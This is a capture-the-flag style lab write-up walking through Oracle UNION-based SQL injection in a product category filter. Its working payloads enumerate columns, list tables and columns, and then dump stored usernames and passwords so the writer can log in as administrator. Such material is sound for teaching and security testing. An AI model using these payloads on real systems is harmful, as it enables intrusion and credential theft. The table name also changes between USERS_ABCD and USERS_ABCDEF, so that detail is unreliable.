





# SQL Injection in Product Category Filter
**Lab:** SQL injection vulnerability in product category filter allowing retrieval of username and passwords of users.
**Category:** SQL Injection
**Difficulty:** Practitioner



To complete the lab we have to login as Administrator.

Now see the URL there is a filter : `/filter?category=Gifts`
Put a `'`  and see that it says internal server error. Adding a single quote causes an internal server error, indicating that the input is being incorporated into a database query and that the quote is affecting the query syntax.

Determine the number of columns that are being returned by the query and which columns contain text data.
Now Add the payload at the end of the URL :
```'+UNION+SELECT+NULL+FROM+dual--```
..
```'+UNION+SELECT+NULL,NULL+FROM+dual--```



until you found the number of columns. Then try this to determine which columns contain text data:

```'+UNION+SELECT+'abc',NULL+FROM+dual--```
```'+UNION+SELECT+'abc','abc'+FROM+dual--```

Now we have to determine which tables are there. Use this payload :

```'+UNION+SELECT+table_name,NULL+FROM+all_tables--```
Find the name of the table containing user credentials. Scroll down and you will see USERS_ABCD :



Now retrieve the details of columns of this table :
```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--```

Find column names which contains username and password :



Now using the following payload retrieve the usernames and passwords of users :

```'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--```



You have found usernames and passwords. Now use the Administrator credentials to login as admin.
## Lab Completed 
The application successfully let us login as an Administrator, completing the lab.